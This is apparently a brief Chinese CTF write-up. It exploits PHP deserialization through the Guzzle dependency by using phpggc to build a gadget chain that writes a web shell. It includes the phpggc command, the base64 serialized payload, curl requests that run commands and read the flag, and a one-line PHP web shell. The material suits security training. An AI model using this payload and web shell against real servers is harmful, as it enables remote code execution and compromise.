

題目附件直接給了源碼，發現 `guzzlehttp/guzzle` 依賴直接 `phpggc` 生成鏈子即可

```bash
php phpggc Guzzle/FW1 /var/www/html/shell.php ./shell.php -b -u                                                             23:09:22 
TzozMToiR3V6emxlSHR0cFxDb29raWVcRmlsZUNvb2tpZUphciI6NDp7czozNjoiAEd1enpsZUh0dHBcQ29va2llXENvb2tpZUphcgBjb29raWVzIjthOjE6e2k6MDtPOjI3OiJHdXp6bGVIdHRwXENvb2tpZVxTZXRDb29raWUiOjE6e3M6MzM6IgBHdXp6bGVIdHRwXENvb2tpZVxTZXRDb29raWUAZGF0YSI7YTozOntzOjc6IkV4cGlyZXMiO2k6MTtzOjc6IkRpc2NhcmQiO2I6MDtzOjU6IlZhbHVlIjtzOjI3OiI8P3BocCBldmFsKCRfUE9TVFsnMSddKTsgPz4iO319fXM6Mzk6IgBHdXp6bGVIdHRwXENvb2tpZVxDb29raWVKYXIAc3RyaWN0TW9kZSI7TjtzOjQxOiIAR3V6emxlSHR0cFxDb29raWVcRmlsZUNvb2tpZUphcgBmaWxlbmFtZSI7czoyMzoiL3Zhci93d3cvaHRtbC9zaGVsbC5waHAiO3M6NTI6IgBHdXp6bGVIdHRwXENvb2tpZVxGaWxlQ29va2llSmFyAHN0b3JlU2Vzc2lvbkNvb2tpZXMiO2I6MTt9
```



```bash
curl -X POST http://127.0.0.1:9999 -d data=$(phpggc Guzzle/FW1 "/var/www/html/shell.php" $(pwd)/shell.php --base64)

curl http://127.0.0.1:9999/shell.php?cmd=whoami
curl http://127.0.0.1:9999/shell.php?cmd="cat /flag.txt"
```

shell.php
```php
<?php system($_GET['cmd']); ?>
```